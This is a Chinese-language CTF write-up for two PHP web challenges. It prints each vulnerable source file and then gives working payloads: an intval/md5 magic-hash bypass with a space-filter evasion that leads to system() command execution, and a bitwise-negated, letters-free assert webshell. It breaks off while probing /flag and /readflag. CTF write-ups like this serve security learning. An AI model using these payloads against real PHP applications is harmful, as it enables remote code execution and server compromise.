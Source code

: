 ## [WUSTCTF2020]朴实无华

```php
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);


//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}
//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?> 
```

1. `intval`处理不当

传入`1e10`,`intval($num)`截断处理成`1<2020`,而`intval($num+1)`处理成`1e10+1>2021`

2. `0e`,`md5(0e215962017)=0e291242476940776845150308577824`
3. 不能用`cat`那就用`tac`或者`strings`或者`ca\t`,注意参数中不能出现空格,因此用`\t`代替即`0x09`

payload`fl4g.php?num=1e10&md5=0e215962017&get_flag=tac%09fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag`






























## [极客大挑战 2019]RCE ME

> 类似于无参数RCE

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
    $code=$_GET['code'];
    if(strlen($code)>40){
        die("This is too Long.");
    }
    if(preg_match("/[A-Za-z0-9]+/",$code)){
        die("NO.");
    }
    @eval($code);
}
else{
    highlight_file(__FILE__);
}
?>
```

`[~%8F%97%8F%96%91%99%90][!%FF]();`执行`phpinfo();`

读出disable_functions

```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,dl
```

`assert`并没有被过滤,因此可以利用`assert`来构造webshell

```php
#assert(end(getallheaders()));
var_dump(urlencode(~"assert"));
var_dump(urlencode(~"end"));
var_dump(urlencode(~"getallheaders"));
#string(18) "%9E%8C%8C%9A%8D%8B"
#string(9) "%9A%91%9B"
#string(39) "%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C"
```

payload`?code=(~%9E%8C%8C%9A%8D%8B)((~%9A%91%9B)((~%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C)()));`

扫描当前目录

![image-20210425151423415](image-20210425151423415.png)

扫描根目录

![image-20210425151522718](image-20210425151522718.png)

有`/flag`也有`/readflag`大概率是运行readflag来读,而flag无法直接读取

`readfile("/flag");`无回显

`readfile("/readflag");`有回显

说明`/flag`无法直接读取